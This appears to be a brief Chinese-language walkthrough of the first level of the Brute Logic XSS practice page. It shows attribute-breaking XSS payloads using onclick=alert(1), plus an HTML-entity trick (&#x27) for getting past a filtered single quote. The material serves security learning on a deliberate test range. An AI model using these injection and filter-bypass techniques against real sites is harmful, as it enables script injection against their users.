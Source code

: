 xss靶场：[XSS Test Page by Brute Logic](http://brutelogic.com.br/xss.php)
第一关，无任何过滤‘，但是没过滤html实体编码。输入html实体编码会自动解码

这里给出一个绕过’被过滤的技巧，使用条件是html实体编码没被过滤
html实体编码：&#x27 == ‘
比如:
```
代码显示地方：<input type="text" value=‘显示’>
<input type="text" value="&#x27 onclick=alert(1)'> #被过滤成html编码
如果html编码没被过滤，payload如下：&#x27 onclick=alert(1) &#x27
```

第一个payload：

' onclick=alert(1) '

![kfbZWj.md.png](https://s2.ax1x.com/2019/02/23/kfbZWj.md.png)

![kfb1TU.png](https://s2.ax1x.com/2019/02/23/kfb1TU.png)